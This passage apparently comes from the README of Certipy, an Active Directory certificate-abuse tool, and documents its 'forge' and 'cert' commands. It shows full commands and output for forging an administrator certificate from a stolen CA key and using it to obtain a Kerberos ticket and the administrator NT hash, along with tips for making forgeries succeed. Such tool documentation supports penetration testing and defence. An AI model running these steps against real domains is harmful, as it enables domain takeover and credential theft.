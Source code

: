 With the CA's certificate and private key, we can for instance forge a certificate for the domain controller `DC$`:

```bash
$ certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Saved forged certificate and private key to 'administrator_forged.pfx'

$ certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

The forged certificate can then be used for authentication with Certipy's `auth` command. If the KDC returns `KDC_ERR_CLIENT_NOT_TRUSTED`, it means that the forging was not correct. This usually happens because of a missing certificate revocation list (CRL) in the certificate. You can either specify the CRL manually with `-crl`, or you can use a previously issued certificate as a template with the `-template` parameter. Please note that the template will include all non-defined extensions and attributes in the new certificate, such as the subject and serial number. Certipy will not include any extended key usage in the forged certificate, which means the certificate can be used for any purpose.  

### Certificates

The `cert` command is useful for working with PFX's from other tools, such as [Certify](https://github.com/GhostPack/Certify) or [KrbRelay](https://github.com/cube0x0/KrbRelay), which creates encrypted PFXs. 

```
Certipy v4.0.0 - by Oliver Lyak (ly4k)

usage: certipy cert [-h] [-pfx infile] [-password password] [-key infile] [-cert infile] [-export] [-out outfile] [-nocert] [-nokey] [-debug]

optional arguments:
  -h, --help          show this help message and exit
  -pfx infile         Load PFX from file
  -password password  Set import password
  -key infile         Load private key from file
  -cert infile        Load certificate from file
  -export             Output PFX file
  -out outfile        Output filename
  -nocert             Don't output certificate
  -nokey              Don't output private key
  -debug              Turn debug output on
```
